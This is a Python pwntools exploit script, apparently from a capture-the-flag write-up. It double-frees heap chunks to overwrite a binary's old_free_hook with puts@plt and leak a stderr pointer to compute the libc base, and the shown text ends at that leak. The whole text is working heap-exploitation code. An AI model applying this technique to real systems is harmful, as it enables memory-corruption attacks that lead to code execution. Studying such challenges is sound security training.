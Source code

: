 ```py
    # debug()

u64 = lambda d: pwn.u64(d.ljust(8, b"\0")[:8])
u32 = lambda d: pwn.u32(d.ljust(4, b"\0")[:4])
u16 = lambda d: pwn.u16(d.ljust(2, b"\0")[:2])
sla = lambda a, b: io.sendlineafter(a, b)
sl = lambda a: io.sendline(a)
recv = lambda: io.recv()
recvn = lambda a: io.recvn(a)
recvu = lambda a, b=False: io.recvuntil(a, b)

def launch():
    l = launch_local
    l = launch_remote
    l()

def getb(d, a, b):
    a_ = d.find(a)
    return d[a_+len(a):d.find(b, a_)] # returns stuff between a & b

def alloc(size, data):
    # sl(b"1")
    sla(b"exit\n", b"1")
    sleep(speed)
    sl(str(size).encode())
    sleep(speed)
    sl(data)
    sleep(speed)

def free():
    sla(b"exit\n", b"2")
    sleep(speed)

def quit():
    sla(b"exit\n", b"3")

exe = ELF(file)
libc = ELF("./libc.so.6")

def exploit():
    sleep(speed)

    alloc(8, b"") # double free 0x20 sized chunk to later overwrite old_free_hook
    free()
    free()

    alloc(0x28, b"")# double free 0x20 sized chunk to overwrite old_free_hook
    free()
    free()
    alloc(0x28, p64(exe.sym["old_free_hook"]))
    alloc(0x28, b"")
    payload = flat([
        exe.plt["puts"], # old_free_hook -> puts@plt
        exe.sym["stderr"], # "a" -> address of stderr
    ])
    alloc(0x28, payload)
    debug()
    input()
    free() # free(a) to leak stderr

    leak = recvu(b"free")
    leak = getb(leak, b">>> ", b"\n=====")
    libc.address = u64(leak) - 0x3ec680
```